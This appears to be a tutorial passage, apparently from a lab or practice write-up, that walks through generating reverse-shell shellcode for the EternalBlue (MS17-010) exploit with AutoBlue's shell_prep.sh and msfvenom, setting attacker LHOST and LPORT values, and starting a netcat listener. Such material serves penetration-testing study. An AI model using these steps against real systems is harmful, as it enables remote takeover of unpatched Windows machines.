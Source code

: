 We're going to run the bash script `shell_prep.sh` under the `shellcode` directory of the package (`../EternalBlue/AutoBlue-MS17-010/shellcode`). 

1. **Double-check permission**:Make sure to add execution permissions to the script before attempting to run it:
```
chmod +x shell_prep.sh
```
- `+x` = Adds execution permission onto the script

2. **Execute the script**
```
./shell_prep.sh
```

3. **Respond to  'Eternal Blue Windows Shellcode Compiler' prompt**:  Should get the prompt `...would you like to auto generate a reverse shell with msfvenom (Y/n`. **msfvenom** is a tool that generates payloads, which are small pieces of code sent to a target system once it's compromised. In this case, it will create a **reverse shell**, which means the compromised system will initiate a connection back to an attacker's machine (us), allowing remote control. We'll say `yes` here.

- Set your machine's IP for `LHOST` (Local Host)
```
LHOST for reverse connection: 
10.23.25.45
```
- Set you listening ports of your machine for the payloads:
```
LPORT you want x64 to listen to:
1234
LPORT you want x86 to listen to:
1234
```
- Specify if you want to generate a meterpreter shell or regular cmd shell (We'll choose 1)
```
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
1
```
- Specify if you want to generate a staged or stageless payload: A **non-staged (stageless) payload** sends the entire payload all at once, whereas  staged payloads sends a small piece first before sending the rest. 

```
Type 0 to generate a staged payload or 1 to generate a stageless payload
1
```

- **Generate the payload**: It will take to some to generate the shellcode but it would be saved  in the shellcode directory. **The payload will be exported into a bin file (ie `sc_x64_msf.bin`) which is where the shell code is saved.** Once its generated, we should be able to execute either the x64 or x86 shell code depending on the target OS's architecture.  Now we can setup our netcat listener.
##### Set up Netcat Listener 
Netcat (often abbreviated as **nc**) is a networking tool used for tasks like port scanning, file transfers, and establishing connections between computers. One of its key features is the ability to set up a listener, which waits for incoming connections on a specified port. To set up a basic listener in Netcat, you would use the command `nc -l -p <port>`, where the **-l** flag tells Netcat to listen and **-p** specifies the port number. 
